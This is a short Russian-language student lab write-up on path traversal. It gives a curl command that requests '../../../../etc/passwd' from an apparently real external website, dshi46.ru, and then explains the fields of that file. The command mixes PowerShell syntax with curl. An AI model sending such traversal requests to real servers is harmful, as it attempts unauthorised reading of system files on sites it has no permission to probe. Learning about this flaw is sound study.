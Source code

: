 # Лабораторная работа №1 - со звёздочкой :star2:
[meme1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme1.jpg)
## Path traversal (обход пути)
*Уязвимость в веб-приложениях, позволяющая злоумышленнику получить несанкционированный доступ к файлам и директориям на сервере, находящимся за пределами разрешенного корневого каталога.*
1. Установим curl 
```
winget install curl.curl
```

2. Попытаемся сделать обход и получить доступ к системным файлам
```
curl -Uri "https://dshi46.ru/../../../../etc/passwd" | select -First 5
```
> Файл /etc/passwd содержит следующие записи, разделенные двоеточиями:
  > - Имя пользователя
  > - Зашифрованный пароль
  > - Цифровой идентификатор пользователя (UID)
  > - Цифровой идентификатор группы пользователя (GID)
  > - Полное имя пользователя (GECOS)
  > - Домашний каталог пользователя
  > - Оболочка входа в систему
